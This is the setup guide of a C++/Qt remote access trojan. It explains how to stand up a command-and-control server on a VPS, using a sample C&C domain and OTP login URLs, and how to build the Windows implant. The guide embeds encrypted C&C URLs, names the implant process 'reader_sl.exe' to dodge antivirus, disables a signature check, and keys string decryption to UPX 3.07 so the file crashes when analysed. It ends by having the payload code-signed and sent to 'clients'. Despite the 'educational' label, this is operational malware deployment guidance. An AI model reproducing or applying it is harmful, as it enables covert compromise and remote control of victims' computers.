 # RAT
Rat coded in C++ and using QT
Educational Purposes Only
USAGE OF THIS PROGRAM's code, credit must be give

SETUP GUIDE
============


Server Side Instructions:
===========================
In order to setup the control panel, you will need a linux VPS with root access.
You only need to do this once.
I recommend ubuntu as it is easier to get and install packages required to build the control panel.

1. Download and extract the file you have onto the linux vps with the following commands:
bzip2 -d p2-export.tar.bz2
tar xvf p2-export.tar


2. You will now have a folder named "p" and all client-side code in different folders.
   First of all, please run the following command to remove client side codes:
rm -Rf d
rm -Rf o
rm -Rf py1


2.2. You now have to install qtcreator before compiling, under ubuntu please issue the following command as root:
apt-get install qtcreator


2.3. Now go to the p folder (cd p/) and edit your config file common.h, this file is quite stright forward as you can see:

This is where your domain goes:
#define P_HOSTNAME                                     "bitspeercachedetect.com"

These are required for SSL support:
#define P_PEM_CERT                            "bitspeercachedetect.com.cert.pem" // Your SSL certificate file
#define P_PEM_KEY                              "bitspeercachedetect.com.key.pem" // Your private SSL key file
#define P_PEM_CHAIN                                              "gd_bundle.crt" // Godaddy certificate bundles

You can get the last file from https://certs.godaddy.com/anonymous/repository.pki considering you SSL certificate is from Godaddy.
You don't need to use SSL but it is highly recommended for obvious reasons.

- Other configuration options are just for fine tuning but work perfectly fine the way they are, don't change them unless you've read the entire (yes, the entire) code !!

2.4 Compile the code using these 2 commands:
qmake
make
This will take a while as it is quite a lot of code.

2.5 Once done compiling you need to setup one last thing. cd to the htroot directory. (command: cd htroot)
- Create a folder with your domain name, for example: mkdir my.domain.com
- run the following command, replace my.domain.com with your C&C domain:
cp -R localhost/* my.domain.com/

- cd to the cgi-bin dir under your domain's folder, ie: cd my.domain.com/cgi-bin
- Now run the following commands:
touch clock
touch cmd
touch dir
touch drop
touch ip
touch list
touch noop
touch otp
touch otpgen
touch report
touch session

- go back to domain (cd ..) folder and run command mkdir static-files
- go inside folder static-files run this command:
ln -s  ../../../htbits/sessions/ gpe3c55teci1r975ihvfxkjexvzd3z4z

- Make sure no other webserver is running (like apache2 or nginx), if they are just stop them
/etc/init.d/nginx stop
/etc/init.d/apache2 stop
apache2ctl stop

- All done! Now go back to the main folder (p) and execute the webserver: ./p &
- You might want to setup a cron job that checks and runs the file if it is not running.

In order to login you must generate a One-Time-Password using the following link:
http://my.domain.com/cgi-bin/otpgen?cred={6jsi84qp-z1vi-xt14-nl6q-cdhbq3w7qrmt}
- Then take this password and use it @ login:
http://my.domain.com/cgi-bin/list

Notice that if you are not using SSL you will still be redirected to a SSL link (https://) - Just replace this with http:// and you should be good.







Client Side Setup:
===================

Requirements:
--------------
1. Visual Studio (2010 is recommended but others should work with no problems)
2. Stringprotect.exe (provided with this code)
3. UPX version 3.07 (!)


1. Extract the file p2-export.tar.bz2 to any location.

2. Go to the folder named "d" and open d.sln.
- You might be asked to convert the file depending on your version of visual studio. Do it if you are asked.

3. In visual studio, find the file named common.h and open it on your screen, this is the config file for the client side.

4. You will see 2 sets of config, 1 that doesnt use string protect and 1 that does. You only need to change the encrypted strings. Unencrypted is only for reference and debugging.

- Open the string encryption tool (stringprotect.exe) provided to you by me in the archive.
- First, we want to change the URLs of the C&C:
- In the tool write the following, be sure that my.domain.com is the actual domain you are using:
S("http://my.domain.com/")
if you want SSL support use https:
S("https://my.domain.com/")
* !! YOU MUST HAVE A REAL AND VALID SSL CERTIFICATE FOR THIS DOMAIN IF YOU WANT TO USE SSL !! *

This will results in an encrypted strings in the second box, copy that strings [without the "S(" and ")" just the \x5c... part] into the right place of common.h so it looks like this:

#define URL_HOST L"\x5c\x5b\x45\x48\x72\x6c\x7e\x76\x56\x46\x45\x4b\x71\x33\x34\x2b\x57\x4e\x52\x50\x64\x32\x34\x2d\x51\x4c\x45\x16\x62\x39\x3c\x76\x34"

- now change other encrypted strings (ALL OF THEM), for example where #define REQUEST_NOOP is located you must encrypt string like:
http://my.domain.com/cgi-bin/noop?id=
so in stringprotect.exe you write:
S("http://my.domain.com/cgi-bin/noop?id=")
and copy encrypted string to the right location at common.h so it looks like:

#define REQUEST_NOOP L"\x5c\x5b ..."

- MAIN_FILENAME is the name of the file that will be created and run, reader_sl.exe is great since it does not trigger AV and is used everywhere. This is the name of the new process after running the exe on target. If you use svchost etc it might trigger AV so be careful.


--- *ONLY IF* you are *NOT* using code signing, you must change the following in main.cpp: 
    ===========================================
  switch (trustissueres) {
  case TRUST_E_PROVIDER_UNKNOWN:
    OSVERSIONINFO vi;
    ZeroMemory(&vi, sizeof(OSVERSIONINFO));
    vi.dwOSVersionInfoSize = sizeof(vi);
    if (GetVersionEx(&vi) && vi.dwMajorVersion == 5 && vi.dwMinorVersion == 2
      && trustissueres == TRUST_E_PROVIDER_UNKNOWN) {
      return;
    }
  case TRUST_E_NOSIGNATURE:
  case TRUST_E_SUBJECT_FORM_UNKNOWN:
    exit(1);
    break;
  case 0:
    break;
  default:
    exit(1);
  }

comment all this out using /* and */.

######################################################################################
# *** Make sure to set visual studio to building in Release mode and not Debug ! *** #
######################################################################################

Now just build the project, and you will have a file named d.exe in the Release folder of the project.

IMPORTANT:
YOU MUST USE upx VERSION 3.07, or else the file will fail to decrypt itself and the strings when running!
- using upx in a cmd.exe window do this for example:
C:\upx307w> upx.exe -9 d.exe

- Now your file is ready to be digitally signed with signtool and sent to your clients :)
https://www.google.com/search?q=signtool
I recommend using like this from cmd.exe:
signtool /signwizard

Don't forget to use time-stamp url so the signature will be valid forever.


Good Luck!









Extra info:
-----------
This is a very big and complex code. Not the every-day script kiddie quality.
If you are making changes to it there are some things you should be aware of:

String encryption is quite a simple encryption code found in main.cpp.

The encryption key is part of the binary file (after compiled). It is the string of the UPX version.
"3.07(0x00)UPX"
This is why you must use upx 3.07 to pack the file.
This also insures that if AV unpacks the file from UPX to analyze - it cannot run correctly and will crash.

Wintrust is also used to ensure that the file has been signed.
If the fils is not signed (and if you didn't change the source code) - The file will not run.
This way tampering and static analysis is quite impossible. Unless you want to analyze a upx packed file :-)
Other anti-debgging techs are implanted into the code and you can find them mostly in main.cpp



upx 3.0.7
windows sdk
pscp
visual studio 2010
putty.exe

VPS Ubuntu 14.04 LTS (32bit)
